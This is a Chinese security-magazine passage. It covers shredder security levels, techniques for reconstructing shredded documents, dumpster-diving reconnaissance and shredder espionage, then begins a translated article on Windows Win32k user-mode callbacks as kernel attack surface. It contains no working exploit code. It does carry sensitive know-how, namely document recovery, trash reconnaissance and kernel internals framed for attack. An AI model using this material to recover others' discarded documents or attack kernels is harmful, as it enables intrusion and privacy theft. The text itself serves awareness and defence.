- 图6 为二级安全（条状 3.9-5.8mm / 粒状 7.5×40-80mm）。
- 图7 为三级安全（条状 1.9mm / 粒状 3.9×30-50mm）。
- 图8 为四级安全（粒状：1.9×15mm）。
- 图9 为五级安全（粒状：0.78×11mm）。



图10为六级安全（粒状：1×5mm）。



图11为3级安全与6级安全的碎纸效果对比，可谓一目了然。



# 碎纸拼接及内容恢复技术

## 1. 碎纸拼接和内容恢复技术

随着计算机技术高速发展，国外对碎纸机所粉碎的纸张颗粒进行拼接和内容恢复的技术也得到进一步发展。这些技术有的针对碎纸的图案、颜色进行重建，有的运用以语义分析为基础的软件来恢复关键词汇和相关内容。美国、德国一些专业碎纸拼接公司，能够对碎纸颗粒的两面进行细致扫描，根据颜色、笔迹、折痕和纹理进行分类，再通过交互式分析找出相匹配的碎纸，最终由多台并行工作的电脑完成拼接。目前利用这种最新技术，无论是采用条形粉碎还是交叉粉碎，只要纸张碎片通过扫描能够进行数字化处理，就可以找出匹配的碎纸，重新组合，还原出约70%的内容。这种技术一旦被窃密者利用，将对国家秘密安全造成严重威胁。因此，对碎纸机处理过的涉密文件纸张碎片必须严格管理，按照规定送涉密载体销毁定点单位进行销毁。有关部门应进一步研究改进粉碎销毁技术，降低安全保密风险。

一般来说，碎纸拼接的流程要经过如下几个步骤：“收集”→“分类”→“重构”→“交付”，其中，难点主要在“重构”环节。

### 2. 文档扫描+碎纸拼接

下面我将“分类”与“重构”环节直接用一个真实的案例来说明：

柏林墙倒塌前数天，前东德情报机构“斯塔西”工作人员开始加班加点销毁浩如烟海的斯塔西档案文件。多个碎纸机因为“加班”工作而出了故障，因此大多数绝密档案后来都是由“斯塔西”工作人员用双手“人工”进行撕毁的。这些已被撕成碎纸片的“斯塔西”文件足足装满了16000多个硕大的袋子。据德国专家估计，这些碎纸至少包含了3400万页的文件，但如今它们全成了至少包含6亿张碎纸片的“碎纸山”，已经没有人能够从这些鹅毛般的碎纸片中完整读出这些文件隐藏的秘密了。

1995年，德国政府决定委托德国Zimdorf公司的一组档案专家还原这些遭撕毁的斯塔西绝密文件，但8年后，15名档案专家经过日夜努力，只拼凑了约250袋的碎纸，复原出50万张文件，剩余的3350万页文件的碎纸仍像山一样堆在那里，让工作人员望而生畏。据报道，这15名“碎纸复原专家”包括数名前斯塔西雇员，其中有些文件甚至是由他们当年亲手撕毁的。

但撕毁容易复原难，在德国南部城市纽伦堡市一个废弃的收容中心，他们日夜辛苦，将成千上万张碎纸片摆在大桌子上，然后用小镊子夹住它们一张张进行拼凑，再用透明胶带将撕痕吻合的碎纸粘贴起来。通过这种方法，他们每天最多只能拼出10页文件。德国专家估计，照这个速度如果将6亿张碎纸片全部复原出来，至少需要花400年的时间。

在传统的手工方法中，研究人员需要先把碎纸片放在传送带上，接着数码扫描仪自动双面扫描。扫描后，电脑自动将获得的信息储存下来，然后通过分析纸屑的形状、颜色、纸质、厚薄等，辨认每一片碎纸屑，将其一片一片地拼凑还原成原来文件纸页的电子图像。

如图12所示，为德国联邦政府东德档案管理局研究人员在拼一份碎片较多的档案，该档案属于 East Germany's Ministry for State Security（即前东德情报机构“斯塔西”STASI）。

但德国柏林弗朗霍夫生产系统和设计科技研究院的科学家们发明了名为“E-Puzzler（电子解谜者）”的设备，它可以通过扫描并比较每一张碎片的外形特征、纸张颜色和笔迹等，像玩智力拼图游戏一样，最后将它们一张张匹配拼凑并“恢复原貌”。这部耗时10年、花费600万欧元研制而成的机器现已工作，其还原文件的能力高达80%以上。使用这种超级电脑和它携带的软件，政府最多只需花5年时间就能将6亿张碎纸全部拼凑结束。然而，这项技术的发展和使用需要德国政府在5年中每年为它花费700万英镑的预算。



图12

直到2007年，德国政府终于批准先投入630万欧元的预算，资助“电子解谜者”计划。如果一切顺利，所有斯塔西碎纸拼凑工作将在2013年左右全部完成。

## 3. 一些关于碎片拼接的研究

### （1）图像匹配及模糊识别算法改进

碎纸自动拼接技术是图像处理与模式识别领域中的一个较新但是很典型的应用，它是通过扫描和图像提取技术获取一组碎纸片的形状、颜色等信息，然后利用计算机进行相应的处理，从而实现对这些碎纸片的全自动或半自动拼接还原。国内目前关于针对手工撕碎纸片的自动拼接关键技术开展的研究成果，已应用于计算机辅助碎纸自动拼接系统中。

其主要工作有以下几个方面：

- 1. 依据图像预处理理论研究了图像分割、边界提取等方法，在碎纸自动拼接的预处理中，采用了彩色图像分割和水平集图像分割方法，实验效果良好。
- 2. 在碎纸自动拼接复原中，提出了一种新的形状匹配算法。首先采用链码表示碎片轮廓，然后通过碎片旋转进行搜索，采用边界准则和面积准则进行碎片之间相似匹配部分的判断，达到碎纸自动拼接的目的，实现了基于计算机辅助的碎纸自动拼接复原。这个算法还可以应用在类似碎片的拼接上。
- 3. 在碎纸拼接中应用了弹性匹配的方法。基本思想是曲线的对应关系可以用一条对准曲线来表示，然后在对准空间中搜索使得弹性形变能最优的对准曲线，这条曲线确定了两轮廓曲线之间点的对应关系。并把碎纸自动拼接中采用的这两种形状匹配方法进行了比较，得出了新的形状匹配算法优于弹性匹配算法的结果。
- 4. 设计了碎纸自动拼接原型系统，主要给出系统的功能、系统的设计、系统的拼接复原流程等。

### （2）基于全局观的匹配模式

当然也有人认为，对于碎纸拼接问题，找到一个全局一致的最终解决方案是非常关键的。于是国内有专业人士提出了一种基于蚁群优化算法（ACO）的全局拼接方法。首先运用基于 ψ-s 分析的局部匹配方法进行局部拼接，然后利用局部拼接产生的候选匹配对构建搜索图，信息素与节点相关联。在迭代过程中，利用候选匹配对之间的矛盾和由蚁群构建的全局拼接路径更新信息素；对于在迄今最优路径上的候选匹配对，人工蚂蚁释放信息素；而位于构建失败路径上的候选匹配对的信息素以一定比例蒸发。候选匹配对的信息素最终向一定方向收敛。最后，根据信息素来筛选候选匹配对。该理论通过实验证明了这种方法的有效性。

类似地，还有很多相关的研究和理论，这里就不再深入举例，感兴趣的朋友可以自行研究。

## 4. 数据取证

由于固定型号的碎纸机的碎纸效果会非常接近，加上配置刀片的粉碎方式固定，这就使得某一批碎掉的文本文件上可能留下了清晰可见的“痕迹”。这就像本文“2. 碎纸拼接”中提到的一样，警务及安全部门的人员能够通过一些采样和恢复工作，来完成某些可能比较关键的取证要求。在伊朗人质危机的案例中，碎片拼接取证就起到了非常重要的作用。

针对文本文档的取证工作平台，如图13所示。



图13

## 5. 碎纸拼接在民用上的典型案例——纸币拼接

（本段文字引自 http://news.cntv.cn）标题：台湾地区一女子历时7天将200张被碎纸机毁掉的钞票复原。

据澳大利亚新闻网和美联社12月9日消息，中国台湾“法务部调查局”的一名工作人员日前创下一个奇迹：历时7天，将200张被碎纸机粉碎的1000元面值的新台币一一复原。

台湾地区男子林先生上个月一时疏忽，将一个装有200张1000元面值新台币的塑料袋扔进了碎纸机。结果，每张纸币都被打成了20余个碎片。痛心疾首的林先生迅速向“法务部调查局”求助。

面对这一棘手的问题，一向热爱拼图的工作人员刘慧芬（音译）找到了办法：利用纸币上的“国”字等汉字来拼凑。在一名助手的帮助下，刘慧芬历时7天时间，终于在9日将200张纸币复原。

刘慧芬表示，虽然这次的工作非常困难，但在拼纸币的过程中她也感受到无穷的乐趣。刘慧芬此前也曾接手过类似工作，她曾历时5天，将撕成247块碎片的纸币拼接完好。

根据台湾地区当地法律，只要纸币75%的区域是拼接完整的，就可以向银行申请更换新纸币。

# 碎纸机面临的安全威胁

## 1. 社会工程学——垃圾搜寻与还原

垃圾搜寻，是一种比较特别的社会工程学攻击方式，具体实现就是通过对公司的垃圾进行仔细搜寻，就可以搜集到大量的信息。通常认为，下面这些垃圾会是潜在的安全隐患：“公司电话簿、组织结构图、私人备忘录、公司内部手册、会议记录、系统手册、打印出的敏感数据或者登录名和密码、打印出的源代码、磁盘、磁带、公司信笺，还有淘汰的硬件等。”

对恶意攻击者来说，这些纸张类资源能够提供极其丰富的信息。例如，恶意攻击者们可以从电话簿上了解到人的名字和电话号码，来确定目标或模仿对象；而公司组织结构图包含公司内部谁是领导者或者负责人的信息；备忘录里有增加可信度的小信息。至于公司内部规定之类的手册，则向攻击者展示该公司真正的安全状况；日历或许可以给攻击者提供某一雇员在某个特殊时间出差的信息。系统操作手册、敏感数据或者其他技术信息资源，也许能够给攻击者提供打开公司网络的准确信息。

最后，那些撕碎的信笺，特别是信用卡账单、会员活动通知等，将能够通过技术恢复数据并提供各种各样的私人及其他有用信息。图14为包含了各类信息的纸张类垃圾。



图14

## 2. 间谍战——海量信息拼图

对于间谍们来说，最常用的方法莫过于在碎纸机里面做小手脚了。通过隐藏在入纸口内的微型摄像装置，就可将纸内面的内容转变为电波信号直接发射到外部，这样外部的接收装置就可以轻易且实时地将全部内部资料截获。我想这样的情节，受过保密培训的人都应该很清楚，这也是我们在物理检查时为什么要检查碎纸机的缘故。而这恰恰是很多大型公司、机构所忽视的安全死角。

当然，对于一些手撕碎或者简单粉碎的纸片，也可以通过专业性的软件识别及恢复。如图15所示，通过简单的排列组合，笔者也能够在很短时间内还原纸条的原有数据。这样简单的级别，我想喜爱玩拼图的朋友们一定都能做到。



图15

## 小结

在很多工作场合，我们能够观察到：很多人在销毁文件的过程中，只是将资料用碎纸机碎掉就随垃圾扔掉了，自以为万事大吉。其实这种行为给现有的安全体系带来了新的隐患，如果这些碎片被别有用心的人收集整理，并利用文件还原技术加以还原，其后果难以预测。特别是一些涉及机密开发的研究所/高校实验机构、关系到客户大量信息的安全公司等，销毁重要文件必须严格按照规定，不仅要用碎纸机碎掉，而且要处理好纸张碎片，最好采用焚烧的方法，确保绝对安全。倘若嫌麻烦、疏忽大意，则有可能导致无法挽回的后果。

当然，若有人嫌碎纸机贵且手撕麻烦的话，也可以考虑用下面的碎纸专用剪刀，可以剪切至任意大小，如图16所示。这下“懒人们”应该满意了吧？



图16

前置知识：驱动

关键词：Windows、内核、系统

# 利用 Windows 用户模式回调机制实施内核攻击



文/图 Tarjei Mandt  译/小小杉

Windows NT 环境下，Win32 子系统提供了一套 Win32 API 函数，以满足用户层应用程序访问更高权限的服务器组件。对于客户端的每个线程，在 Windows 子系统进程中都有一个专门配对的服务器线程在等待客户端线程的请求。一个被称为 fast LPC 的特殊跨进程通信设施，可用来在线程之间发送消息。与普通的线程环境切换不同的是，在这些配对的线程之间通过 fast LPC 来传递消息，并不会使内核中产生一个重新调度（rescheduling）事件，服务器线程在等待内核的抢先式线程调度器将执行权交给它以前，可以利用客户端线程尚未用完的时间片来运行自己的代码。另外，利用共享的内存缓冲区，可以传递一些大的数据结构；客户可以直接（但只读）访问关键的服务器数据结构，使客户端和 Windows 子系统服务器之间的线程/进程转换尽可能减少到最少。

尽管已经提升了传统 Win32 子系统的性能，但 Microsoft 公司还是决定将 Windows NT4.0 发行版的大部分服务器组件移植到内核模式下。这些改变使得子系统可直接访问其他 Windows 执行体组件，而无须付出用户模式或者内核模式转换的代价。然而，相对在相同权限级之间的代码/数据直接访问，用户与内核模式之间的切换效率还是显得很慢：一些旧的设计如在用户模式下的部分客户端地址空间上依旧保存有高速管理结构缓存；另外，一些管理结构还专门存放在用户模式下以避免 Ring 转换。Win32k 需要通过一种方式访问到这些信息，并支持一些基本功能如 Windows 钩子，则需要将控制权传递给用户模式端，即用户模式回调机制。用户模式回调机制允许 Win32k 实现用户模式回调任务，如调用应用程序定义的 hook 函数、提供事件通知、用户模式数据拷进拷出等。本文主要讨论 Win32k 系统中的用户模式回调涉及的各种挑战和问题难点，并给出 Win32k 在数据完整性设计上的某些不完整漏洞（如用户模式下的回调）。

## 1. 用户模式下的回调

Win32k 系统中使用了大量的系统调用函数实现用户模式通知，如应用程序自身设置的钩子函数、内核驱动的异步事件通知、数据拷贝（从用户模式进/出）等。回调函数机制的实现函数为 KeUserModeCallback，一个 NT 执行体导出的函数，类似于一个反向系统调用，定义如下：

```c
NTSTATUS KeUserModeCallback(
    IN ULONG ApiNumber,
    IN PVOID InputBuffer,
    IN ULONG InputLength,
    OUT PVOID *OutputBuffer,
    IN PULONG OutputLength
);
```

当 Win32k 使用用户模式回调时，系统会调用函数 KeUserModeCallback，并带上参数 ApiNumber，即系统需要调用的用户模式函数的索引值。此索引值存放在一个函数指针表 KernelCallbackTable 中，此地址在给定进程中对 USER32.dll 进行初始化期间被拷贝到进程环境控制块 PEB 结构中。系统通过公式 `CallbackFunPointer = KernelCallbackTable[ApiIndex]` 取回回调函数指针。Win32k 为相应的回调函数提供 InputBuffer 参数，并接收用户模式输出参数 OutputBuffer。系统调用发生后，`nt!KiSystemService` 或 `nt!KiFastCallEntry` 会在内核线程栈上存放一个陷阱栈（TRAP_FRAME）以保存当前线程上下文，并在返回用户模式时恢复寄存器值。为了准确返回到用户模式指定回调函数地址，KeUserModeCallback 会先通过线程对象中的陷阱栈信息拷贝参数到用户模式栈，然后创建新的陷阱栈并设置返回入口，最终由 `nt!KiServiceExit` 将执行权转给用户模式回调派遣函数。用户模式下的回调机制需要空间存放线程状态信息（如陷阱栈等）。在 Windows XP 和 2003 下系统会自动增长内核栈长度，但栈空间也可能被递归回调迅速耗尽，因此 Vista、Windows 7 为每个用户模式回调函数创建了新的内核线程栈。

如下所示：

```text
kd> dt nt!_KSTACK_AREA
   +0x000 FnArea                  : _FNSAVE_FORMAT
   +0x000 NpxFrame                : _FXSAVE_FORMAT
   +0x1e0 StackControl            : _KERNEL_STACK_CONTROL
   +0x1fc Cr0NpxState             : Uint4B
   +0x200 Padding                 : [4] Uint4B
